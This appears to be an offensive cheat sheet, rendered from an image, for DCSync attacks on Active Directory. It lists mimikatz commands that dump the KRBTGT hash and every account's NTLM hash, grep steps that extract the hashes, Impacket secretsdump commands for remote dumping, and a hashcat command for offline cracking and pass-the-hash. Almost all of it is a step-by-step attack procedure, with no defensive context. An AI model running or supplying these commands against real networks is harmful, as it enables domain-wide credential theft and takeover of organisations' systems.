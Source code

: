 # Credentials to look for:

### 1) Local admin rights on several machines

### 2) Service accounts that have delegate permissions

### 3) Accounts used for privileged AD Services (SCCM,WSUS,Exchange,etc.)

#### 1) mimikatz

#### 2) lsadump::dcsync /domain:DOMAIN /user:OUR_LOW-PRIVILEGE_AD_USERNAME

### Privileges: Replicate Directory Changes, Replicate Directory Changes All, Replicated Directory Changes in Filtered Set

### Usually, Administrators, Domain Admins and Enterprise Admins have this privilege in their accounts.

#### 1) mimikatz.exe

#### 2) privilege::debug

#### 3) lsadump::dcsync /user:KRBTGT_ACCOUNT

# DCSync every single account

#### 1) mimikatz

#### 2) log USERNAME_dcdump.txt

#### 3) lsadump::dcsync /domain:DOMAIN /all

#### 4) exit

#### 5) Download file

#### 6) cat FILE.txt | grep "SAM Username"

#### 7) cat FILE.txt | grep "Hash NTLM"

#### 8) Offline password cracking / Pass-theHash (Mimikatz)

# DCSync Remote

### Secretsdump.py on an account that is synced with the domain controller to dump hashes to PtH attack.

#### 1) python3 Impacket-Secretsdump.py -just-dc DOMAIN/AD_ADMIN_USER@DC_IP

#### 2) python3 Impacket-Secretsdump.py -just-dc-ntlm DOMAIN/AD_ADMIN_USER@DC_IP

#### 3) hashcat -m 1000 -a 0 hashes.txt /path/to/wordlist.txt

